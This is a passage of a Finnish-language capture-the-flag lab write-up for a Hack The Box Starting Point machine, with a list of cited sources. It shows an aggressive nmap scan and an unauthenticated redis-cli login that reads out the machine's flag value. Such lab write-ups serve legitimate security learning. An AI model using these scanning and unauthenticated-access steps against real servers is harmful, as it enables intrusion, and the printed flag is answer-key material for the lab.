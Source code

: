 Aiemmin olin siis käyttänyt:

```
nmap -T4 -A 10.129.64.60
```

Kirjautumiseen redis-cli käytin [^9]

```
redis-cli -h 10.129.64.60 -p 6379
```

Käytin tässäkin rediksen dokumentaatiota [^9]

```bash
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ redis-cli -h 10.129.64.60 -p 6379
10.129.64.60:6379> keys *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
10.129.64.60:6379> keys "flag"
1) "flag"
10.129.64.60:6379> get "flag"
"03e1d2b376c37ab3f5319922053953eb"
```

---

<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>

[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/
[^2]: Hack the Box. Hack The Box FAQs: HOW TO CONNECT TO VPN: https://www.youtube.com/watch?v=LMCKbR_wWds
[^3]: Using telnet: https://support.ricoh.com/bb_v1oi/pub_e/oi_view/0001038/0001038625/view/network/unv/0029.htm
[^4]: Hack the Box: Learn the basics of Penetration Testing - Starting point: https://app.hackthebox.com/starting-point 
[^5]: Wikipedia. FTP: https://en.wikipedia.org/wiki/FTP
[^6]: Wikipedia. Server Message Block: https://en.wikipedia.org/wiki/Server_Message_Block
[^7]: Stack Overflow. SMB Client Commands Through Shell Script: https://stackoverflow.com/questions/28698694/smb-client-commands-through-shell-script
[^8]: nmap.org. A Quick Port Scanning Tutorial: https://nmap.org/book/port-scanning-tutorial.html
[^9]: Redis. Getting Started: https://redis.io/learn/howtos/quick-start 
[^10]: Carla Ferreira. Hack The Box — Starting Point “Responder” Solution: https://medium.com/rakulee/hack-the-box-starting-point-responder-solution-d0fa2ea77a56
[^11]: Wikipedia. NTLM https://en.wikipedia.org/wiki/NTLM
[^12]: 0xdf hacks stuff. Getting Creds via NTLMv2: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html
[^13]: narrowtomato. Using Responder To Grab NetNTLMv2: https://narrowtomato.github.io/guides/responder_ntlm.html
[^14]: GetCyber. Responder – Hack The Box // Walkthrough & Solution // Kali Linux: https://www.youtube.com/watch?v=wq-najIgsRU
[^15]: Tero Karvinen. Start Your Research with a Review Article: https://terokarvinen.com/review-article/
[^16]: Kumaresan Durvas Jayaraman, Dr. Shubha Goel. ADVANCEMENTS IN AUTHENTICATION MECHANISMS USING OAUTH 2.0 AND SAML: https://www.researchgate.net/profile/Kumaresan-Durvas-Jayaraman/publication/390172665_ADVANCEMENTS_IN_AUTHENTICATION_MECHANISMS_USING_OAUTH_20_AND_SAML/links/67e324bb72f7f37c3e8d9210/ADVANCEMENTS-IN-AUTHENTICATION-MECHANISMS-USING-OAUTH-20-AND-SAML.pdf